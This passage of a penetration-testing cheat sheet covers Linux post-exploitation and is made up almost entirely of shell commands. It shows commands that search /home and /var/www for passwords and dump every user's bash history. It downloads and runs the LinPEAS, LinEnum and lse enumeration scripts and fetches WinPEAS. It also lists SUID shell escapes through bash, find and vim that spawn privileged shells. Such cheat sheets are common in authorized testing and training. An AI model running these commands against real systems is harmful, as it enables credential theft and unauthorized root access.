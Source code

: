 ```bash
grep -r "password" /home/ 2>/dev/null
grep -r "pass" /var/www/ 2>/dev/null
find . -type f -exec grep -i "password" {} + 2>/dev/null

# Check bash history
cat ~/.bash_history
cat /home/*/.bash_history
```

### Enumeration Scripts
```bash
# LinPEAS (Linux)
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

# Linux Smart Enumeration
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
chmod +x lse.sh
./lse.sh -l2

# WinPEAS (Windows)
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe
```

---

## Privilege Escalation

### Linux Privilege Escalation

#### Sudo
```bash
# Check sudo permissions
sudo -l

# GTFOBins - exploit sudo
# Visit: https://gtfobins.github.io/
```

#### SUID Binaries
```bash
# Find SUID files
find / -perm -4000 2>/dev/null

# Common exploitable SUID binaries
/bin/bash -p
/usr/bin/find . -exec /bin/sh -p \; -quit
/usr/bin/vim.basic -c ':py import os; os.execl("/bin/sh", "sh", "-p")'
```
